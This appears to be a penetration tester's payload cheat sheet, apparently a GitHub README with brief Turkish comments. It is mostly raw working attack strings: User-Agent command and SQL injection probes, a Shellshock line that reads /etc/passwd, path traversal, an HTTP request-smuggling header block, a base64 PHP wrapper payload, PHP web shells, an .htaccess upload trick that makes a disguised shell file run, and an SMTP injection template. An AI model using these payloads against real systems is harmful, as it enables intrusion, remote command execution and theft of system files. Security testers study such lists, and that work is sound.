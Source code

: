 # HAND BOOK

User-Agent Command Injection
```
 1))%20or%20sleep(20)--
```
```
'">{{7*7}}${2*2}
```
```
() { : ; }; echo ; /bin/bash -c "cat /etc/passwd"
```

User-Agent SQL Injection
```

```

MarkDown
```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../../etc/passwd)
```


Chunked diyoruz ve content type ini ayarliyoruz. ayrilmis sorgulari olacagini ve 0 ile de ikinci bir get gonderecegimizi soyluyoruz:
```header
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```


```
data://text/plain;base64,PD9waHAgZWNobygnYWJoaXNoZWttb3JsYTo6OicuIGdldF9jdXJyZW50X3VzZXIoKSAuJzo6OmFiaGlzaGVrbW9ybGEnKTs/Pg==
```

Payload php
```
<?php system($_GET['cmd']); ?>
```
```
<?php echo file_get_contents('/etc/passwd'); ?>
```
```
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

Addtype application/x-httpd-php .shell
```

```
Content-Disposition: form-data; name="avatar"; filename="shell.shell"
Content-Type: image/png

<?php system($_GET['cmd']); ?>
```

Smtp Attack
```
  -----------------------------134475172700422922879687252
  Content-Disposition: form-data; name="subject"
  Test
  .
  MAIL FROM: external@domain1.com
  RCPT TO: external@domain1.com
  RCPT TO: external@domain2.com
  RCPT TO: external@domain3.com
  RCPT TO: external@domain4.com
  Data
  This is an example of SMTP Injection attack
  .
  -----------------------------134475172700422922879687252
```
